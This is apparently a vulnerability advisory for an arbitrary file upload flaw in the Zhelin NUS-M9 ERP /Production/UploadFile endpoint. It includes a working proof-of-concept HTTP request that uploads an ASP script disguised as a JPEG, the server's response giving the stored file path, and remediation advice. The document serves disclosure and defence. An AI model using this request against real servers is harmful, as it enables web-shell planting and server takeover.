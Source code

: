 ## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry

Analysis and Remediation Suggestions for Arbitrary File Upload Vulnerability in Zhelin NUS-M9 ERP Management Software Backend /Production/UploadFile

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its primary products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a critical arbitrary file upload vulnerability was discovered in the backend interface **/Production/UploadFile** of this software.

## **Vulnerability Description**

 This vulnerability allows attackers to upload arbitrary file types through the interface, including malicious ASP script files. Once uploaded, attackers can access the file to execute remote code, thereby gaining a Web Shell (commonly referred to as "Getshell") on the server, which could lead to full control over the affected server. Such vulnerabilities typically result from inadequate file type validation or the absence of effective security checks.

## **Impact of the Vulnerability**

1. **Remote Control**: Attackers can gain control of the server through the uploaded malicious file, enabling remote command execution and system access.
2. **Data Breach**: Attackers may exploit the acquired privileges to access or alter sensitive data on the server, leading to data breaches or corruption.
3. **System Disruption**: Attackers could delete or tamper with system files, causing business disruptions or system crashes.
4. **Persistent Attacks**: Attackers may establish persistent backdoors via the uploaded Web Shell, facilitating further malicious activities.

POC： 

![3](3.png)

POST：

```http
POST /Production/UploadFile HTTP/1.1
Host: 127.0.0.1:8086
Content-Length: 1384
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypbsEuF3C71eFJKTf
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ehdywaltevtixgtll3zsaghf
Connection: close

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="uploadfile"; filename="1.asp"
Content-Type: image/jpeg

<%
result = 7 * 7
Response.Write(result)
%>

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileNm"

1.jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileSize"

35.0 Bytes
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileType"

jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UpType"

PublicFiles
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="MCode"

00133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="DtlID"

133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserID"

1
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserName"

admin
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CUserCode"

666
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CToken"

8F8CC991AE59513AB2A17316AA23EF285F1D7D54FC0E295E8060CFDDA2263111
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UploadTarget"

0
------WebKitFormBoundarypbsEuF3C71eFJKTf--

```

Response:

```http
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Server: Microsoft-IIS/10.0
X-AspNetMvc-Version: 4.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 14 Aug 2024 10:57:05 GMT
Connection: close
Content-Length: 111

{"success":true,"FileName":"1","FilePath":"../images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp"}
```

![](4.png)

```
/images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp
```

![5](5.png)

## **Remediation Suggestions**

1. **Strict File Type Validation**: Only allow the upload of specific file types, such as images or documents, and ensure consistency between the file extension and MIME type.
2. **File Renaming and Storage Control**: Rename uploaded files and store them in directories that cannot be accessed directly via URL to prevent the files from being executed.
3. **Server Permission Controls**: Ensure strict permission settings on server folders and directories to prevent unauthorized file execution.
4. **Security Audits**: Regularly conduct code audits and penetration testing on the upload functionality to identify and fix similar vulnerabilities promptly.

**Conclusion:** The security of Zhelin NUS-M9 ERP management software is crucial for its users. By fixing this arbitrary file upload vulnerability, enterprises can effectively prevent server compromise and ensure the security of their data and systems.
